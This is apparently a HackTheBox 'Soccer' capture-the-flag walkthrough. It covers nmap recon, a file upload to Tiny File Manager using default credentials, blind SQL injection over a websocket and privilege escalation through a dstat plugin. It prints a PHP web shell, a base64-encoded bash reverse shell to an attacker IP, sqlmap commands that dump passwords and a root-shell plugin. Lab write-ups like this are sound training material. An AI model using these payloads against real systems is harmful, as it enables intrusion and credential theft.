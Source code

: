 # HackTheBox - Soccer

## NMAP

```bash
Nmap scan report for 10.10.11.194                                                                                                                                                                                                
Host is up (0.11s latency).                                                                                                                                                                                                      
Not shown: 65532 closed tcp ports (reset)                                                                                                                                                                                        
PORT     STATE SERVICE         VERSION                                                                                                                                                                                           
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)                                                                                                                                      
| ssh-hostkey:                                                                                                                                                                                                                   
|   3072 ad0d84a3fdcc98a478fef94915dae16d (RSA)                                                                                                                                                                                  
|   256 dfd6a39f68269dfc7c6a0c29e961f00c (ECDSA)                                                                                                                                                                                 
|_  256 5797565def793c2fcbdb35fff17c615c (ED25519)                                                                                                                                                                               
80/tcp   open  http            nginx 1.18.0 (Ubuntu)                                                                                                                                                                             
|_http-title: Did not follow redirect to http://soccer.htb/                                                                                                                                                                      
| http-methods:                                                                                                                                                                                                                  
|_  Supported Methods: GET HEAD POST OPTIONS                                                                                                                                                                                     
|_http-server-header: nginx/1.18.0 (Ubuntu)                                                                                                                                                                                      
9091/tcp open  xmltec-xmlmail?                                                                                                                                                                                                   
| fingerprint-strings:                                                                                          
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, RPCCheck, SSLSessionReq, drda, informix: 
|     HTTP/1.1 400 Bad Request                                                                                  
|     Connection: close                                                                                         
|   GetRequest:                                                                                                 
|     HTTP/1.1 404 Not Found                                                                                    
|     Content-Security-Policy: default-src 'none'                                                               
|     X-Content-Type-Options: nosniff                                                                           
|     Content-Type: text/html; charset=utf-8                                                                    
|     Content-Length: 139                                                                                       
|     Date: Mon, 19 Dec 2022 13:32:35 GMT                                                                       
|     Connection: close                                                                                         
|     <!DOCTYPE html>                                                                                           
|     <html lang="en">                                                                                          
|     <head>                                                                                                    
|     <meta charset="utf-8">                                                                                    
|     <title>Error</title>                                                                                      
|     </head>                                                                                                   
|     <body>                                                                                                    
|     <pre>Cannot GET /</pre>                                                                                   
|     </body>                                                                                                   
|     </html>                                                                                                   
|   HTTPOptions, RTSPRequest:                                                                                   
|     HTTP/1.1 404 Not Found                                                                                    
|     Content-Security-Policy: default-src 'none'                                                               
|     X-Content-Type-Options: nosniff              
```


## PORT 80 (HTTP)

Visting the site, we'll be redirected to `soccer.htb`, adding the domain name in `/etc/hosts` file

<img src="https://i.imgur.com/eCQeJX2.png"/>

<img src="https://i.imgur.com/bn8VsWS.png"/>

On adding this domain in hosts file, we'll be able to vist the site

<img src="https://i.imgur.com/dUAqtQR.png"/>

Fuzzing for files and directories using `gobuster`

<img src="https://i.imgur.com/dDLrgre.png"/>

Running with different wordlist, we'll find `/tiny`

<img src="https://i.imgur.com/pHC78FC.png"/>



Try the default creds which are `admin:admin@123`, we'll be able to login

<img src="https://i.imgur.com/P2bf0y3.png"/>

Also the other credentials for low privleged user will work as well which are `user:12345`

<img src="https://i.imgur.com/bTO1mfP.png"/>

At the right bottom, we can see the version as well which is `2.4.3` , we can find the exploit for this which is an authenticated remote code execution through file upload, using the scripts for github or exploit-db won't work because it tries to upload in the tiny's root path which is `/var/www/html/tiny` but the scenario here is different as `tiny` folder is owned by root and the other users have only read access 

<img src="https://i.imgur.com/rEG4tHQ.png"/>

<img src="https://i.imgur.com/qxuTeNW.png"/>

## Foothold

But checking the tiny folder we have a folder named `uploads` in which have full access so we can upload our file there

<img src="https://i.imgur.com/op4Chr9.png"/>

Uploading the php file 

```php
<?php system($_GET['cmd']); ?>
```

<img src="https://i.imgur.com/Aw7rYIZ.png"/>

<img src="https://i.imgur.com/lNZjAUn.png"/>

Getting a reverse shell with a bash base64 encoded payload

```bash
/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.30/5555 0>&1'

echo 'L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjMwLzU1NTUgMD4mMScK' | base64 -d | bash
```

<img src="https://i.imgur.com/uIWG8rq.png"/>

Checking the nginx config files, we'll see `soc-player.htb` in `/etc/nginx/sites-available/`

<img src="https://i.imgur.com/9sAbV75.png"/>

Which shows that there's another site on port 3000 running locally with the subdomain `soc-player.soccer.htb` , we can port forward using `chisel`

<img src="https://i.imgur.com/msp25ci.png"/>

<img src="https://i.imgur.com/KVph4xY.png"/>

We can try registering for an account

<img src="https://i.imgur.com/2OUlQ7J.png"/>

After signing up, we can login 

<img src="https://i.imgur.com/oTP924Q.png"/>

We can see here an input field but it doesn't reflect anything, on entering with blank field it shows `?????`

<img src="https://i.imgur.com/RVTb5UX.png"/>

The reaons why it does that is 

<img src="https://i.imgur.com/lPdMBJR.png"/>

This code creates a new WebSocket connection to the server at the specified URL `ws://soccer.htb:9091`. When the page finishes loading, it sets up an event listener for the `keypress` event on an input element with the id `id`, and specifies the function `keyOne` to be called when the event occurs. `The keyOne` function stops the event from propagating and, if the key pressed is the Enter key (keyCode 13), it calls the 'sendText' function.

The `sendText` function sends a message to the server over the WebSocket connection. The message is a JSON object with a single field, "id", which contains the value of the input element. If the input element is empty, it calls the 'append' function with the string `????????`.

The `ws.onmessage` function is called when the WebSocket connection receives a message from the server. It calls the 'append' function with the received message as an argument. The `append` function selects the first `p` element in the page and sets its text content to the specified message. It also has commented-out code to set the text color to a random color, but this is not currently being used.


## Privilege Escalation (player)

So here I tried running sqlmap hoping it will find as it's in json and chances are that it maybe vulnerable to blind sqli as there was an article realted to blind sqli in web sockets

https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html

Running `sqlmap` against the web socket by providing the JSON post request

```bash
sqlmap -u "ws://soccer.htb:9091" --data='{"id":"jjhhk"}' --batch  --level 2 --risk 2 
```

<img src="https://i.imgur.com/L56v5oX.png"/>

<img src="https://i.imgur.com/I2avFBO.png"/>

Continuing to dump the database, it takes too much time as it's blind so after seeing the database, table and column name and directly tried dumping the passwords

<img src="https://i.imgur.com/PZrzpRc.png"/>

```bash
sqlmap -u "ws://soccer.htb:9091" --data='{"id":"jjhhk"}' --batch  --level 2 --risk 2 -D soccer_db -T accounts -C password --dump
```

<img src="https://i.imgur.com/mu2WSrK.png"/>

<img src="https://i.imgur.com/zjoTQKF.png"/>
Running `sudo -l` to see what privileges we had results nothing but on running `find` command to see what files or folders are owned by `player` groups shows that we have access to `/usr/local/share/dstat`

```bash
find / -group "player" 2>/dev/null | grep -v '/proc' 
```

<img src="https://i.imgur.com/3Q3WnyB.png"/>

`dstat` is a tool that allows getting statistics from the system like seeing the CPU resources memory and etc, having access to this folder we can place external dstat plugins 

<img src="https://i.imgur.com/gh6254G.png"/>

## Privilege Escalation (root)

But issue is we need to run dstat as root if we want those external plugins to be executed as the root user, so running `linpeas` I found `doas` available on this machine

<img src="https://i.imgur.com/R9t3YGv.png"/>

Interstingly there's doas which is an alternate of sudo to execute commands as other users, running this will show that we can run dstat as root user

<img src="https://i.imgur.com/8OLMqaM.png"/>

Creating an external plugin `uwu` by naming it `dstat_uwu.py` and calling it with `dstat --uwu` with doas

```python
import pty
pty.spawn("/bin/bash")
```

```bash
doas /usr/bin/dstat --uwu
```

<img src="https://i.imgur.com/HFuWddn.png"/>



## References

- https://www.ctfiot.com/78939.html
- https://github.com/febinrev/tinyfilemanager-2.4.3-exploit/blob/main/tiny_file_manager_exploit.py
- https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html
- https://linux.die.net/man/1/dstat
